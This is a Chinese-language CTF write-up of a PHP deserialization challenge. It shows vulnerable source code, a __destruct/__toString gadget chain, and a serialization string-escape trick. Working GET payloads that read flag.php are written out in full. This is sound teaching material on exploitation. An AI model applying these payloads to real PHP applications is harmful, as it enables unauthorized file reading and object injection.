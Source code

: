 # Challenge 0X01

## 源码

index.php

```php
<?php
// show_source("c1.php");
error_reporting(0);
function write($data){
	return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data){
	return str_replace('\0\0\0', chr(0) . '*' . chr(0) , $data);
}

class A{
	public $username;
	public $password;
	function __construct($a,$b){
		$this->username = $a;
		$this->password = $b;
	}
}

class B{
	public $b ='gqy';
	function __destruct(){
		$c = 'a'.$this->b;
		echo $c;
	}
}

class C{
	public $c;
	function __toString(){
		//flag.php
		echo file_get_contents($this->c);
		return 'nice';
	}
}

$a = new A($_GET['a'],$_GET['b']);

$b = unserialize(read(write(serialize($a))));
?>
```

flag.php

```php
<?php
$a="flag{ccc}";
?>
```

## 题解

​		核心思路“destruct+toString序列化攻击”配合“序列化字符串逃逸”

### 序列化攻击

​		核心攻击链：利用类B的\_\_destruct魔术方法内的echo，触发类C的\_\_toString魔术方法调用file_get_contents获取flag.php内容。

​		构造序列化链：

```php
<?php
  <?php

class A{

}

class B{
	public $b;
}

class C{
	public $c='flag.php';
}

$b= new b();
$b->b=new c();
echo serialize($b);
//O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}
?>
```

​		测试攻击效果，攻击成功。

![](../images/21-5-27_ctf_unserialize_1.png)

​		将payload正常传入$_GET参数a和b，得到以下结果：

![](../images/21-5-27_ctf_unserialize_2.png)

​		发现序列化字符串被当成了username和password变量的值，但在unserialize之前，调用了read和write函数，我们可以利用这两个函数进行序列化字符串逃逸。

### 序列化字符串逃逸

​		直接拿exp进行调试。

```php
$_GET['a']='\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0';
$_GET['b']='a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}};';
```

​		结果：

![](../images/21-5-27_ctf_unserialize_3.png)

​		read函数将`\0\0\0`（长度为6）替换为`<0x00>*<0x00`（长度为3）后，导致s:48从第一个引号`"`后开始读取48个字符，在<0x00>后遇到第二个引号时，已读取字符串长度为24，不足48，从而继续读取字符串，直到遇到`a";`，读完字符a后，已读字符串长度为48，此处的引号才与第一个引号对已读取的48个字符进行闭合。

![](../images/21-5-27_ctf_unserialize_4.png)

**具体分析如何构造序列化字符串逃逸漏洞：**

​		read函数可将\0\0\0替换为<0x00>*<0x00>，长度为6的字符串变成了长度为3的字符串，长度减少了3。

​		考虑正常的序列化字符串

```php
O:1:"A":2:{s:8:"username";s:9:"bbbbbbbbb";s:8:"password";s:55:"O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}";}
```

​		我们可以通过参数a传入\0\0\0，使得序列化字符串中username变量的对应特征`s:9:"bbbbbbbbb";`的`bbbbbbbbb`字符串长度变短，但是由于`s:9`中9的数值并未变化，php在读取完长度变短后的值后，会继续读取字符串，直到读取了9个字符。我们可以借此方法吞掉password字段，实现反序列化字符串逃逸。

​		参考上文的正常序列化字符串，我们需要吞掉的字符为：

```php
";s:8:"password";s:55:"a
```

​		其中a是额外添加的字符串，因为原字符串长度为23，考虑到3字节对齐，需要添加一个字符a凑齐24个字符。其中，`s:8:"password";s:55:"`为序列化过程动态添加，且由于每一个**序列化变量值**必须要有与其对应的**变量名**才合法，构造的payload为：

```php
$_GET['a']='\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0';
$_GET['b']='a";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}};';
```

​		`s:8:"password";`即为值`O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"`
`flag.php";}};`对应的变量名。

